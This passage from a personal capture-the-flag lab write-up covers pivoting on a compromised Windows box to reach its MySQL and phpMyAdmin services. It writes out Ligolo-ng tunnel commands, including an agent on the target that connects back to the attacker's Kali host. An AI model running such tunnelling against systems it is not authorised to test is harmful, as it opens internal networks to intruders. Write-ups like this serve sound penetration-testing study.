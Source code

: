 I couldn't really get anything working though. In the screenshot below there is an unquoted file service path I got where with, and there is also a MySQL service shown as well. 

![Craft212.png](/assets/images/Craft2/Craft212.png){: .center-aligned width="600px"}

I got stuck here for a while because I didn't think much of the SQl server running. There were no creds for it, and it's just not that rare for the lab boxes to have one running by default because so many of them using a web application that comes with it. That was a mistake it turns out. I finally caved and looked for hints, and it became clear that we need to check it out, more so for the phpMyAdmin portal that was using it than anything else. We can do that by forwarding the port to our target machine. The writeups I saw used chisel, but I prefer [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)so I used that with the below commands. 

From Kali:
1. `sudo ip tuntap add user pop mode tun ligolo`
2. `sudo ip link set ligolo up`
3. `sudo ip route add $targetIP.0/24 dev ligolo`
4. `sudo ./proxy -selfcert`

From Windows Target (agent file):
1. `.\ligolo.exe -connect $kaliIP:11601 -ignore-cert`

From Kali again:
1. `ip route add 240.0.0.1/32 dev ligolo`

Then we can access the target's ports over port 240.0.0.1. I tried running: `mysql -h 240.0.0.1 -u root -p`, but I got an error of `ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it`. I tried with `--ssl-mode=DISABLED`, but it said it was an unknown varaible. I can kind of see it over the browser, so the ligolo connection is working. 

![Craft213.png](/assets/images/Craft2/Craft213.png){: .center-aligned width="600px"}

One thing to think about it the system as a whole. It's a LAMP stack, meaning Linux (the OS), Apache (the web server), MySQL (db), and PHP (the language). This is how a lot of the lab boxes are set up, and there is a web portal for them called PHPMyAdmin. Sometimes we need to access it over the course of a lab and sometimes we don't. In this case, there actually is a clue early on in the form of a Admin Login link on the Craft website. 
